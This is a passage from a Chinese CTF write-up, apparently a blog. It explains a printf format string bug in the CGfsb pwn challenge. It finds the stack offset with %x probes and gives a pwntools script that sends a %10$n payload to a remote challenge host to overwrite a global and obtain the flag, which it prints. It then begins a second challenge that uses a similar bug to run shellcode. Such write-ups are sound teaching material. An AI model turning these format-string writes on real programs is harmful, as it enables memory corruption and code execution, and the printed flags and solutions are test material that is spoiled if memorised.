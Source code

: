 当pwnme=8的时候执行system函数，显示出flag。一般printf的参数是：格式化字符串 + 参数1 + 参数2 ...。如果后面的参数数量对应不上格式化字符串中需要的参数，会自动从栈顶获取对应的参数。这样我们就可以根据输入的字符离栈顶的偏移再次找到它，最后利用%k$n将其解析为地址，然后改变地址上存储的数据，达到内存覆盖。

![img](https://img-blog.csdnimg.cn/20201003204424560.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3UwMTI4OTAwOTU=,size_16,color_FFFFFF,t_70)

输入“AAAAAAA%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x”  之后，因为后面没有对应%x的参数，所以直接从栈顶开始获取参数，到第10个%x获取到41414141，查询ASCII表发现是输入的信息的开头的AAAA

或者通过gdb调试，利用printf的漏洞，来确定输入的内容是格式化字符串第几个参数

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019092509365644.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM1MDY2MjU3,size_16,color_FFFFFF,t_70)

找到pwnme的位置，经过32位编码转换，是4位

```shell
.bss:0804A068 pwnme           dd ?                    ; DATA XREF: main+105↑r
```

接下来利用%k$n写入，在格式化字符串中，"%s"、"%d" 等类型的符号叫符号说明，这里有几个冷门的符号说明：

![img](https://bbs.pediy.com/upload/attach/201904/823237_AJWMDN56MCB9PE3.jpg)

解释一下%10$n，找到格式化字符串后的第10个参数，将参数解析为地址，将已经输出的字节长度写入此地址，脚本：

```python
from pwn import *
#io = process("./CGfsb")
io = remote('111.200.241.244',40185)
pwnme_addr = 0x804A068
payload = p32(pwnme_addr) + 'A' * 4 + '%10$n';#4位地址+4位字符输出组成8位，利用%k$n赋到pwnme地址上，使pwnme=8
io.sendlineafter("please tell me your name:\n","aaaa")
io.sendlineafter("leave your message please:\n",payload)
io.interactive()
```

cyberpeace{3f49e5587bdf9b3537041be32468aa17}

#### 10-Pwn-string

**题目来源：**

NUAACTF

**题目描述：**

菜鸡遇到了Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

**题目场景：**  

111.200.241.244:57862

**题目附件：**

[1d3c852354df4609bf8e56fe8e9df316](https://adworld.xctf.org.cn/media/task/attachments/1d3c852354df4609bf8e56fe8e9df316)

**题目思路：**

POP攻击链：通过格式化字符串漏洞修改v4[0]的值，使之与v4[1]相等。然后读入shellcode并运行。
